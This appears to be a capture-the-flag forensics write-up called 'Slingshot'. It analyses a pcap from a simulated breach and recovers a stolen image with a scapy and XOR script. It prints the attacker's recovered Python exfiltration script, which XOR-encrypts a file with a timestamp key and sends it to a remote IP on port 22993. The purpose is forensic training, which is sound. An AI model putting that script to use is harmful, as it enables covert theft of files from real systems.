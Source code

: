 # Slingshot
## Description
> We have recently suffered a data breach, and we need help figuring out if any data was stolen. Can you investigate this pcap file and see if there is any evidence of data exfiltration and if possible, what was stolen.

```py
download.pyc

import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993
with open(file, 'rb') as r:
    data_bytes = r.read()
current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))
s.connect((ip, port))
s.send(encrypt_bytes)
```

```py
from pwn import xor
from scapy.all import *

packets = rdpcap('Slingshot.pcapng')
data_bytes = bytearray()

for packet in packets:
    if hasattr(packet, 'dport') and packet.dport == 22993:  # Ensure dport exists before checking
        if packet.haslayer(Raw):
            if len(packet.load) > 1:
                # Convert the timestamp to an integer, then to bytes
                key_bytes = str(int(packet.time)).encode()  # Ensure key is in byte format
                data_bytes.extend(packet.load)

# XOR the captured data with the key
output = xor(data_bytes, key_bytes)

# Write the result to the file
with open('flag.jpg', 'wb') as f:
    f.write(output)
```

### Summary of Steps:
- Read the packets from the capture file (Slingshot.pcapng).
- Filter packets that go to port 22993.
- Extract the raw payloads from these packets and append them to data_bytes.
- Convert the packet timestamp into bytes to use as a key.
- XOR the collected data payloads with the key.
- Save the result (which could be an image, e.g., flag.jpg) to a file.


![flag](https://github.com/user-attachments/assets/d93d4121-6a3b-4263-b80d-e4fc5d2a145c)
